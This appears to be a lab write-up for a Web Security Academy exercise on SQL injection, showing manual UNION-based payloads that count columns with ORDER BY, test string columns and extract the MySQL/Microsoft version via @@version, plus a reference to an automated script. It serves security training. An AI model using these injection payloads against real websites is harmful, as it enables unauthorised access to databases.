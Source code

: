 # SQL Injection Lab 04 - SQL injection attack, querying the database type and version on MySQL and Microsoft

## Manual Solution

### 1. Access the lab in Web Security Academy
### 2. Determine the number of columns for UNION attack
### 3. Use ORDER BY to find column count:
   - Test: `/filter?category=Gifts' ORDER BY 1-- -`
   - Result: No error (at least 1 column exists)
   - Test: `/filter?category=Gifts' ORDER BY 2-- -`
   - Result: No error (at least 2 columns exist)
   - Test: `/filter?category=Gifts' ORDER BY 3-- -`
   - Result: Error (confirms 2 columns)

### 4. Verify column data types:
   - Test: `/filter?category=Gifts' UNION SELECT '1', '2'-- -`
   - Result: Values '1' and '2' displayed (confirms string compatibility)

### 5. Extract database version:
   - Payload: `/filter?category=Gifts' UNION SELECT NULL,@@version -- -`
   - Result: Database version information displayed


## Automated Solution

### 1. Download the script
### 2. Run the script with the following command: python sqli_lab_04.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)

